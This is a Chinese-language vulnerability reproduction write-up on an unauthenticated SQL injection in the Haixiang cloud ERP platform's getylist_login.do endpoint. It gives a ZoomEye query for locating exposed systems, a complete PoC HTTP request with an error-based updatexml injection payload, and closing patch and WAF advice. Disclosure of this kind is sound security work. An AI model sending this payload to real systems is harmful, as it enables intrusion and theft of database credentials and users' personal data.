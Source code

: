 
# 海翔云平台 getylist\_login.do SQL 注入漏洞复现

### 0x01 产品简介

  海翔[云平台](https://so.csdn.net/so/search?q=%E4%BA%91%E5%B9%B3%E5%8F%B0&spm=1001.2101.3001.7020)一站式整体解决方案提供商，业务涵盖 批发、连锁、零售行业 ERP 解决方案、wms 仓储解决方案、电商、外勤、移动终端（PDA、APP、小程序）解决方案。

### 0x02 漏洞概述

  海翔云平台 getylist\_login.do 接口处存在 SQL 注入漏洞，未经身份认证的攻击者可通过该漏洞获取数据库权限，除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

### 0x03 复现环境

钟馗之眼：app:"海翔云平台"

![](assets/1701222661-98a7b56d15a11a488ca28afe30b8a250.png)

### 0x04 漏洞复现

PoC

```cobol
POST /getylist_login.do HTTP/1.1
Host: {{Hostname}}
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 75

accountname=test' and (updatexml(1,concat(0x7e,(select user()),0x7e),1));--
```

查询当前用户

![](assets/1701222661-49e2e868510a8567a542c63beae53828.png)

### 0x05 修复建议

官方已修复该漏洞，建议受影响的用户升级至安全版本：http://www.seaflysoft.com/

部署 Web 应用防火墙，对数据库操作进行监控。

如非必要，禁止公网访问该系统。
